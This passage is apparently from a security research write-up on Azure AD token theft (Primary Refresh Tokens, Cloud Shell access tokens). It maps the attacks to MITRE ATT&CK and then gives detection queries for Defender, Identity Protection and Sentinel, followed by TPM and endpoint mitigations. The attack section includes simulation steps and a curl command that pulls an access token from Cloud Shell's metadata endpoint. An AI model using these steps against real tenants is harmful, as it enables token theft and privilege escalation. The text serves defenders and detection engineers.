    
    

#### Stealing Access Token outside of device with Azure Cloud Shell

**Attack Description**

- Azure Cloud Shell will be used from a compliant device by a privileged user, attacker has access to modify container image on blob storage which allows to escalate privileges by injecting commands (technique [AZT403 - Local Resource Hijack](https://microsoft.github.io/Azure-Threat-Research-Matrix/PrivilegeEscalation/AZT403/AZT403-1/)).

**Pre-requisites**

- Compromised privileges (Azure AD identity or SAS) with storage contributor permissions on blob storage of Cloud Shell

**Steps to simulate an attack**

- Use Bloodhound or ‘Stormspotter’ to get the shortest path to a user account, workload identity, or non-AAD AuthN/AuthZ tokens with permissions to manage blob storage of Azure Cloud Shell
- Follow the instructions from the blog post “[Azure Privilege Escalation via Cloud Shell](https://www.netspi.com/blog/technical/cloud-penetration-testing/attacking-azure-cloud-shell/)” which has been well documented [by Karl Fosaaen](https://twitter.com/kfosaaen?ref_src=twsrc%5Egoogle%7Ctwcamp%5Eserp%7Ctwgr%5Eauthor).
- Run native cmdlets (such as Get-AzAccessToken) or requests to the following HTTP endpoint to get an access token for all supported resources (e.g. Microsoft Graph, ARM, etc.) without further authentication:
    
    ```bash
    response=$(curl http://localhost:50342/oauth2/token --data "resource=https://management.azure.com/" -H Metadata:true -s)
    access_token=$(echo $response | python -c 'import sys, json; print (json.load(sys.stdin)["access_token"])')
    echo The access token is $access_token
    ```
    
- More details can be found in the docs article: [Acquiring a user token in Azure Cloud Shell | Microsoft Docs](https://docs.microsoft.com/en-us/azure/cloud-shell/msi-authorization)

**Side notes and research results**

- Cloud Shell uses communication between Azure Instance Metadata Service (IMDS) and the browser to request an access token from the administrator’s local device. This allows getting the access token with the device compliance state and the IP address of the user’s device: [https://docs.microsoft.com/en-us/azure/cloud-shell/msi-authorization](https://docs.microsoft.com/en-us/azure/cloud-shell/msi-authorization)
- Currently, it’s not possible to request CAE-capable tokens from Azure Instance Metadata Service (IMDS).
- Cached tokens can be also found on local devices: Azure PowerShell is stored in “msal_token_cache.bin” ( .Azure folder in user’s profile) and encrypted by DPAPI

## MITRE ATT&CK Framework
MITRE ATT&CK framework is commonly used for mapping Tactics, Techniques and Procedures (TTPs) for adversary actions and emulating defenses on organizations around the world.

### Tactics, Techniques & Procedures (TTPs) of the named attack scenarios

### TTP on abusing service connections in Azure DevOps

|  Attack Scenario |    TTPs         |  Description  |
|--------------|-----------|-----------|
|  Replay PRT with exfiltrated transport and session keys | OS Credential Dumping [T1003.006](https://attack.mitre.org/techniques/T1003/) | Adversaries may attempt to dump credentials to obtain account login and credential material, normally in the form of a hash or a clear text password, from the operating system and software. Credentials can then be used to perform Lateral Movement and access restricted information Several of the tools mentioned in associated sub-techniques may be used by both adversaries and professional security testers. Additional custom tools likely exist as well. |  
|  Replay PRT with exfiltrated transport and session keys, Replay of CAE-capable Access Token, Stealing Access Token outside of device with Azure Cloud Shell | Steal Application Access Token - [T1528](https://attack.mitre.org/techniques/T1528/)| Adversaries can steal application access tokens as a means of acquiring credentials to access remote systems and resources. Application access tokens are used to make authorized API requests on behalf of a user or service and are commonly used as a way to access resources in cloud and container-based applications and software-as-a-service (SaaS). OAuth is one commonly implemented framework that issues tokens to users for access to systems. Adversaries who steal account API tokens in cloud and containerized environments may be able to access data and perform actions with the permissions of these accounts, which can lead to privilege escalation and further compromise of the environment. |
|||

## Detections

On the detection side, we are focusing on usual suspects, Microsoft cloud-based security solutions. Starting from the source of the attack, the device, and moving to the identity detections and finally to Sentinel which is acting as a SIEM solution in our example scenario.



### Suspicious authentication and activity to access PRT

#### Microsoft Defender for Endpoint (MDE)

- Endpoint Detection & Response - EDR built-in detection (Attempt to access primary refresh token)
    - Limitation: BrowserCore is renamed/moved to another folder
    - Detection in MDE works if Primary Refresh-Token (PRT) is directly manipulated (Get-AADIntUserPRTToken)
    - Device certificates are exported (Export-AADIntLocalDeviceCertificate’ & ‘Export-AADIntLocalDeviceTransportKey’).
    - This kind of attack is identified as a ‘Multi-stage incident’ in M365 Defender as you can see below
        
        
        
    
    - PRT detection is instant on the MDE side
        
        
        
    - One possible attack path is to use PRT to create a fake device id into Azure AD. If the PRT detection incident/alert is seen in the environment, run this query to find out if the user entity in the PRT incident created any fake devices to Azure AD.
        
        ```powershell
        AuditLogs
        | where TimeGenerated between(datetime('2022-08-11 00:00:00') .. datetime('2022-08-11 23:59:59'))
        | extend userPrincipalName_ = tostring(parse_json(tostring(InitiatedBy.user)).userPrincipalName)
        | extend DeviceRegInfo = tostring(AdditionalDetails[0].value)
        | extend TrustType = tostring(AdditionalDetails[2].value)
        | extend DeviceID = tostring(AdditionalDetails[4].value)
        | where userPrincipalName_ contains "DebraB"
        | project TimeGenerated, OperationName, Category, DeviceRegInfo, DeviceID, TrustType, userPrincipalName_
        ```
        
    - One interesting side note is that MDA provides also the same information from the activity in raw data
        
        ```powershell
        CloudAppEvents
        | where TimeGenerated between(datetime('2022-08-11 00:00:00') .. datetime('2022-08-11 23:59:59'))
        | where AccountDisplayName == "Device Registration Service"
        | extend ApplicationId_ = tostring(ActivityObjects[0].ApplicationId)
        | extend ServiceName_ = tostring(ActivityObjects[0].Name)
        | extend DeviceName = tostring(parse_json(tostring(RawEventData.ModifiedProperties))[1].NewValue)
        | extend DeviceId = tostring(parse_json(tostring(parse_json(tostring(RawEventData.ModifiedProperties))[6].NewValue))[0])
        | extend DeviceObjectId_ = tostring(parse_json(tostring(RawEventData.ModifiedProperties))[0].NewValue)
        | extend UserPrincipalName = tostring(RawEventData.ObjectId)
        | project TimeGenerated, ServiceName_, DeviceName, DeviceId, DeviceObjectId_, UserPrincipalName
        ```
        
    
    With these queries, you can find the ‘device id’ & ‘device object id’ and disable/delete the device from Azure AD.
    
    
    
    #### Azure AD Identity Protection (IPC)
    
    To monitor suspicious activities around authentication & access to PRT, IPC provides the following analytics rules out of the box
    
    - **Anomalous Token.** This alert flags a token’s unusual characteristics, such as its token lifetime or played from an unfamiliar location.
    - **Unfamiliar sign-in properties.** It’s usual that the attackers use multiple proxies or VPNs originating from various countries or regions unfamiliar to the target user.
    - **Unfamiliar sign-in properties for session cookies.** These alert flags anomalies in the token claims, token age, and other authentication attributes.
    - **Anonymous IP address.** This alert flags sign-in attempts from anonymous IP addresses (for example, Tor browser or anonymous VPN).
    - **PRT detection** is also linked to Azure AD Identity Protection ([premium detection](https://docs.microsoft.com/en-us/azure/active-directory/identity-protection/concept-identity-protection-risks)) with 1-3 minutes latency.
        - *This detection will move users to high risk and will only fire in organizations that have deployed MDE. The detection is low-volume and will be seen infrequently by most organizations. However, when it does occur its high risk and users should be remediated.*
            
            
            

**IPC Anomalous Token**

This detection indicates that there are abnormal characteristics in the token such as an unusual token lifetime or a token that is played from an unfamiliar location. This detection covers Session Tokens and Refresh Tokens.



**IPC Atypical travel & Unfamiliar sign-in properties**

Suspicious sign-in behavior or properties (e.g. Atypical travel & Unfamiliar sign-in properties) during requesting refresh and access token will be effectively detected by Identity Protection if the sign-in frequency is set to “every time” in case of medium or higher sign-in risks. 

- Risk policies can be bypassed (by using a previously satisfied MFA claim) if you don’t use the sign-in frequency.
- Below you can find IPC detections from the ‘Replay Refresh Token without using WAM’ attack scenario



To correlate IPC with sign-in log with minor modifications (Matt Zorich's - [Sentinel-Queries/Identity-AADRiskEventCorrelation.kql at main · reprise99/Sentinel-Queries · GitHub](https://github.com/reprise99/Sentinel-Queries/blob/main/Azure%20Active%20Directory/Identity-AADRiskEventCorrelation.kql)). The query leverages AAD user risk events, sign-in logs, and Sentinel UEBA.

```powershell
let id=
    IdentityInfo
    | summarize arg_max(TimeGenerated, *) by AccountUPN;
let signin=
    SigninLogs
    | where TimeGenerated > ago (14d)
    | where RiskLevelDuringSignIn in ('high')
    | join kind=inner id on $left.UserPrincipalName == $right.AccountUPN
    | extend SigninTime = TimeGenerated
    | where RiskEventTypes_V2 != "[]";
AADUserRiskEvents
| where TimeGenerated > ago (30d)
| extend RiskTime = TimeGenerated
| where DetectionTimingType == "realtime"
| where RiskDetail !has "aiConfirmedSigninSafe"
| join kind=inner signin on CorrelationId
| extend TimeDelta = abs(SigninTime - RiskTime)
| project
    SigninTime, 
		UserPrincipalName,
    RiskTime,
    TimeDelta,
    RiskEventTypes,
    RiskLevelDuringSignIn,
    City,
    Country,
    EmployeeId,
    AssignedRoles
```

### Suspicious Activity in Cloud Session

#### Defender for Cloud Apps (MDA)

MDA provides a number of policies out of the box for detecting suspicious activity during the session and also during sign-in. Here are a few policies that could be helpful to identify suspicious activity from the users.

- **Suspicious inbox manipulation rule.** The attackers set an Inbox rule to hide their malicious activities. Defender for Cloud Apps identifies such suspicious rules and alerts users when detected.
- **Impossible travel activity.** The attackers used multiple proxies or virtual private networks (VPNs) from various countries or regions. Sometimes, their attack attempts happen at the same time the actual user is signed in, thus raising impossible travel alerts.
- **Activity from infrequent country.** Because the attackers used multiple proxies or VPNs, on certain occasions, the egress endpoints of these VPN and proxy servers are uncommon for the user, thus raising this alert.

An example of a suspicious activity of the user’s session



### User Page - UEBA

To investigate the suspicious activity of the user session MDA provides a good starting point with UEBA aka ‘User Page’. 

- The UEBA can be used to evaluate suspicious activities and investigation priority score (score is based on the last 7 days’ activity)
- The User Page provides information about the latest activities where it can be easily identified possible actions after PRT has been stolen
    
    
    
- If user investigation priority is increased dramatically MDA creates alert from it. This alert is not synced to M365D
    
    
    
- Suspicious activities that generated score increase. Activities and logins from three different locations

    

- MDA Activity Log provides information on the user activities from the last 30 days (MDA in general from the last 6 months)
    
    
    
**Side notes:** 

- MDA does contain only interactive login information, not non-interactive login (such as refresh-token usage).
- Reference for advanced hunting queries for MDA "[Hunt for multi-stage incident with MDA data](./queries/MDA-Hunt-Multi-Stage-Incident.kql)"

#### App Governance (MDA add-on)

App Governance (AppG) is a security and policy management capability that can be used to monitor and govern app behaviors and protect the apps from risky behaviors with data, users, and apps. App governance is designed for OAuth-enabled apps that access Microsoft 365 data via [Microsoft Graph APIs](https://docs.microsoft.com/en-us/graph/use-the-api)‘. 

If ‘AppG’ is used in your environment suspicious activity with tokens can be identified with it and seen as below (event from suspicious activity by Graph Explorer)



#### Sentinel - UEBA

- Sentinel ‘Entity Behavior’ provides similar information to the MDA ‘User Page’ but has more additional details to investigate the user entity.
    
    
    

To leverage raw data collected by UEBA see ‘Additional Detections & Hunting’.

#### Defender for Cloud (MDC)

Defender for Cloud - ‘Enhanced Security Features’ (formerly knowns as threat protection layer / Azure Defender plans) provides protection for Azure workloads. The enhanced security features are:

- Servers
- App Service
- Databases
- Storage
- Containers
- Key Vault
- Resource Manager
- DNS

From these, Azure Resource Manager (ARM) and Key Vault example alerts are seen below. These alerts are based on the threat protection layer built-in rules. The full alert reference list is found in Microsoft docs: [Reference table for all security alerts in Microsoft Defender for Cloud | Microsoft Docs](https://docs.microsoft.com/en-us/azure/defender-for-cloud/alerts-reference#)

- Azure Resource Manager operation from a suspicious proxy IP address: *Microsoft Defender for Resource Manager detected a resource management operation from an IP address that is associated with proxy services, such as TOR. While this behavior can be legitimate, it's often seen in malicious activities, when threat actors try to hide their source IP*
    
    
    
- **MicroBurst exploitation toolkit used to extract keys from your Azure key vaults**: *MicroBurst's exploitation toolkit was used to extract keys from your Azure key vaults. This was detected by analyzing Azure Activity logs and resource management operations in your subscription*.


### Additional Detections & Hunting

- Hunt for sign-in attempts with suspicious characteristics (location, ISP, user agent, use of anonymizer services).
- Hunt for unusual mailbox activities such as the creation of Inbox rules with suspicious purposes or unusual amounts of mail item access events by untrusted IP addresses or devices.
- Monitor token requests from Cloud Shell by using the browser’s access to PRT:
    
    ```powershell
    AADNonInteractiveUserSignInLogs
    | where AppDisplayName == "AzurePortal Console App"
    | project TimeGenerated, Identity, AppId, AppDisplayName, ResourceDisplayName, ConditionalAccessStatus, IPAddress, Location
    ```
    

#### Sentinel - Hunting Queries

- The ‘BehaviorAnalytics’ table has additional information for the user entity investigation. This sample (from MS) generates an output of successful sign-in with one or more of the following indications:
    - Performed by new or recently dormant accounts
    - Where one or more features of the activity deviate from the user, his peers, or the tenant profile
    - Performed by a user with Risk indication from AAD
        
        ```powershell
        BehaviorAnalytics
        | where ActionType == "Sign-in"
        | where UsersInsights.IsNewAccount == True
            or UsersInsights.IsDormantAccount == True
            or ActivityInsights has "True"
        | join (
            SigninLogs
            | where Status.errorCode == 0 or Status.errorCode == 0 and RiskDetail != "none"
            )
            on $left.SourceRecordId == $right._ItemId
        | extend UserPrincipalName = iff(UserPrincipalName has "#EXT#", replace("_", "@", tostring(split(UserPrincipalName, "#")[0])), UserPrincipalName),
            UserName = iff(UserName has "#EXT#", replace("_", "@", tostring(split(UserPrincipalName, "#")[0])), UserName)
        | project
            TimeGenerated,
            UserName,
            UserPrincipalName,
            UsersInsights,
            ActivityType,
            ActionType,
            ["Evidence"]=ActivityInsights,
            ResourceDisplayName,
            AppDisplayName,
            SourceIPAddress,
            SourceIPLocation,
            SourceDevice,
            DevicesInsights
        | extend timestamp = TimeGenerated
        ```
        

- Query to detect anomalous geo locations (BehaviorAnalytics & Sign-in logs)
    
    ```powershell
    BehaviorAnalytics
     | where ActionType == "Sign-in"
     | where ActivityInsights.FirstTimeConnectionFromCountryObservedInTenant == True and ActivityInsights.CountryUncommonlyConnectedFromAmongPeers == True
         | join (
    SigninLogs
     ) on $left.SourceRecordId == $right._ItemId
     | extend UserPrincipalName = iff(UserPrincipalName contains "#EXT#",replace("_","@",tostring(split(UserPrincipalName, "#")[0])),UserPrincipalName),
     UserName = iff(UserName contains "#EXT#",replace("_","@",tostring(split(UserPrincipalName, "#")[0])),UserName)
     | project TimeGenerated, UserName, UserPrincipalName, UsersInsights, ActivityType, ActionType, ["Evidence"]=ActivityInsights, ResourceDisplayName, AppDisplayName, SourceIPAddress, SourceIPLocation, SourceDevice, DevicesInsights, ResourceId
     | extend timestamp = TimeGenerated, AccountCustomEntity = UserPrincipalName, IPCustomEntity = SourceIPAddress, ResourceCustomEntity = ResourceId
    ```
    
- Query to detect anomalous geo locations (BehaviorAnalytics & Non-Interactive Sign-in logs)
    
    ```powershell
    BehaviorAnalytics
     | where ActionType == "Sign-in"
     | where ActivityInsights.FirstTimeConnectionFromCountryObservedInTenant == True and ActivityInsights.CountryUncommonlyConnectedFromAmongPeers == True
         | join (
     AADNonInteractiveUserSignInLogs
     ) on $left.SourceRecordId == $right._ItemId
     | extend UserPrincipalName = iff(UserPrincipalName contains "#EXT#",replace("_","@",tostring(split(UserPrincipalName, "#")[0])),UserPrincipalName),
     UserName = iff(UserName contains "#EXT#",replace("_","@",tostring(split(UserPrincipalName, "#")[0])),UserName)
     | project TimeGenerated, UserName, UserPrincipalName, UsersInsights, ActivityType, ActionType, ["Evidence"]=ActivityInsights, ResourceDisplayName, AppDisplayName, SourceIPAddress, SourceIPLocation, SourceDevice, DevicesInsights
     | extend timestamp = TimeGenerated, AccountCustomEntity = UserPrincipalName, IPCustomEntity = SourceIPAddress
    ```
    

- The existing analytics rules to [detect attempts to AAD joined or registered devices and transport keys](https://github.com/Azure/Azure-Sentinel/pull/4199/files) can be used as hunting query

## Mitigations

### Increase visibility by implementing detections

- Implement analytics rules from the detection part

### Enforce TPM-protection



- Enforce using TPM in Device Compliance without Grace Period and restrict options to disable them (Azure Admins to modify security options of VM, users access to UEFI settings,…)
- Create a [Windows Hello for Business Policy](https://docs.microsoft.com/en-us/mem/intune/protect/windows-hello#create-a-windows-hello-for-business-policy) to require TPM. This prevents users to store PRT with strong authentication claim outside of the security chip.
- Configure [Device Health Attestation (DHA) in MEM Compliance Policy](https://docs.microsoft.com/en-us/mem/intune/protect/compliance-policy-create-windows#windows-health-attestation-service-evaluation-rules) to evaluate rules for requiring BitLocker and Secure Boot.
- Enforce [BitLocker disk encryption with TPM](https://docs.microsoft.com/en-us/mem/intune/protect/encrypt-devices) and [consider to block end-users from viewing recovery key](https://docs.microsoft.com/en-us/azure/active-directory/devices/device-management-azure-portal#block-users-from-viewing-their-bitlocker-keys-preview). The named configuration blocks users to have access to the hard disk after disabling TPM. This stops further activities to logon and store PRT outside of TPM.
- Configure an Azure Policy to verify and monitor TPM configuration of all VMs in Azure which are able to use a virtual security chip.
    - “[[Preview]: Configure supported virtual machines to automatically enable vTPM”](https://portal.azure.com/#blade/Microsoft_Azure_Policy/PolicyDetailBlade/definitionId/%2Fproviders%2FMicrosoft.Authorization%2FpolicyDefinitions%2Fe494853f-93c3-4e44-9210-d12f61a64b34) Configure supported virtual machines to automatically enable vTPM to facilitate Measured Boot and other OS security features that require a TPM. Once enabled, vTPM can be used to attest boot integrity.

### Protection of endpoint and processes



- Avoid assigning local admin permissions to users! Most of the shown attack scenarios work only with local admin permissions.
- Create [“Attack Surface Reduction Rules” (ASR) rules](https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/attack-surface-reduction-rules-reference?view=o365-worldwide) in Microsoft Intune to protect the LSAAS process
- [Deploy “Microsoft Defender for Endpoint” automatically](https://docs.microsoft.com/en-us/microsoft-365/security/defender-endpoint/configure-endpoints-mdm?view=o365-worldwide) to get alerts if suspicious activities or tools has been detected.
